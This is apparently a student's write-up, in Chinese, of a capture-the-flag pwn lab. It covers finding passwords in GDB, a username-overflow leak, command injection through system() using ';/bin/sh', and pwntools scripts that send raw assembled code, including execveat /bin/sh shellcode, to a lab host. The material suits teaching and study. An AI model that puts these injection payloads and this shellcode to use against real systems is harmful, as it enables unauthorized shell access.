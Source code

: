 # Pwn Lab1
## 3220102732-周伟战-Pwn基础
---
> 前期准备，在ubuntu上两个指令安装
sudo apt install -y gdbserver
sudo pip3 install pwntools
(操作均在Linux虚拟机中进行)
### Task1
####1.1
Step1:利用pwn template --host 116.62.247.145 --port 10100 ./hello>hello_pwn.py将程序给重定向到hello_pwn.py之中,并且已经将我们remote环境也封装完毕
利用python3 hello_pwn.py remote来验证
![P2](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P2.png?raw=true)
Step2：
在阅读hello.c代码之后，发现应该将断点设置在(Line121)get_user_password（）处
![P3](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P3.png?raw=true)
在GDB一直单步调试后，发现密码是
**`I_am_very_very_strong_password!!`**
![P4](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P4.png?raw=true)
由此得到了第一部分的flag:
**`AAA{H3ll0_the3E_`**
> 1.1  get the flag1 over
####1.2 get the flag2 
> 要获得flag2是利用这个程序的bug，在remote下，在username下输入32个字长的username，然后
会导致真实的password接在程序报错的字符串中。

![P5](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P5.png?raw=true)
得到admin的密码是：**`V3rY_C0mp13x_Pa55W0rD`**(21len)
Step3:
在hello_pwn.py中添加代码，使得在remote状态下完成admin的账号登录
![P6](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P6.png?raw=true)
最终获得flag2**`cOoL_anD_m0t1vaTEd_Pwni3s}`**
连在一起获得flag:**`AAA{H3ll0_the3E_cOoL_anD_m0t1vaTEd_Pwni3s}`**
### Task2
> 将injection1用IDA逆向并且进行F5反编译,观察main函数；
在命令行中进行nc 116.62.247.145 10101，并且利用helper解题，顺利的进入。

在观察过main之后，分析bug:
```C
  puts("input file name");
  scanf((unsigned int)"%32s", (unsigned int)filename, v0, v1, v2, v3, 0LL, 0LL, 0LL, 0LL);
  puts("input file data");
  read(0, appenddata, 0x80uLL);
  snprintf(
    (unsigned int)cmd,
    256,
    (unsigned int)"echo -n \"%s\" >> datafolder/%s",
    (unsigned int)appenddata,
    (unsigned int)filename,
    v4,
    filename[0]);
  system(cmd);
```
通过system执行`echo -n \"%s\" >> datafolder/%s`,来实现程序功能。
本题的思路是code injection，那么只需要在`input file data`里面输入`;ls`指令,很显然可以看见`flag.txt`文件
![P7](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P7.png?raw=true)
> 发现有flag.txt 说明已经找到了flag

重新进入该界面，利用;/bin/sh进入shell指令，通过查询IDA中反编译的readfile源码，得到了
`cat`指令然后利用指令cat flag.txt后就能获得flag，如下图所示:
![P8](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P8.png?raw=true)
**`flag:AAA{C0d3_1nJecti0n_5xampLE}`**
### Task3
> 以下是5个delegate的代码

```C
#include<stdio.h>
int add(int a,int b){
    return a+b;
}
int sub(int a,int b ){
    return a-b;
}
int AND(int a,int b){
    return a && b;
}
int OR(int a,int b){
    return a || b;
}
int XOR(int a ,int b){
    return a^b ;
}
```
然后利用命令行，获得其未link前的assemble code
`gcc calculator1.c -O2 -c -o calculator1.o`&&`objdump -M intel -d calculator.o|less`
获得优化过后的assemble code
![P9](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P9.png?raw=true)
![P10](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P10.png?raw=true)
![P12](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P12.png?raw=true)
> 获得了5个函数
```python
from pwn import *
context.arch='amd64'
add_asm='''
lea    eax,[rdi+rsi*1]
ret
'''
add_code=asm(add_asm)
print(add_code)
```
得到了add函数的`b'\x8d\x047\xc3'`
同理获得了SUB函数的`b'\x89\xf8)\xf0\xc3'`
AND函数的`b'\x89\xf8!\xf0\xc3'`
OR函数的`b'\x89\xf8\t\xf0\xc3'`
XOR函数的`b'\x89\xf81\xf0\xc3'`
```python
from pwn import *
context.arch='amd64'
context.log_level ='DEBUG'
#io=...
p=remote('116.62.247.145',10102)
p.sendlineafter(b"Request-1: give me code that performing ADD\n",b'\x8d\x047\xc3')
p.sendlineafter(b"Request-2: give me code that performing SUB\n",b'\x89\xf8)\xf0\xc3')
p.sendlineafter(b"Request-3: give me code that performing AND\n",b'\x89\xf8!\xf0\xc3')
p.sendlineafter(b"Request-4: give me code that performing OR\n",b'\x89\xf8\t\xf0\xc3')
p.sendline(b"Request-5: give me code that performing XOR\n",b'\x89\xf81\xf0\xc3')

p.interactive()
```
然后获得了flag
**`AAA{W0w_yoU_aRE_v3rY_g00d_4t_A5M_C0dE}`**
> 学习shellcode

```python
from pwn import *
context.arch='amd64'
context.log_level='DEBUG'
p=remote("116.62.247.145",10102)
shellasm='''
push 0x42
pop  rax
inc  ah
cqo
push rdx
movabs rdi,0x68732f2f6e69622f
push rdi
push rsp
pop  rsi
mov  r8,rdx
mov  r10,rdx
syscall
'''
shellcode=asm(shellasm)
p.sendline(shellcode)
p.interactive()
```
![P13](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P13.png?raw=true)
得到了flag
**`AAA{Th1nK_l1ke_A_hacKeR_n0t_A_pr0graMM3r}`**

### Task4
### Bonus
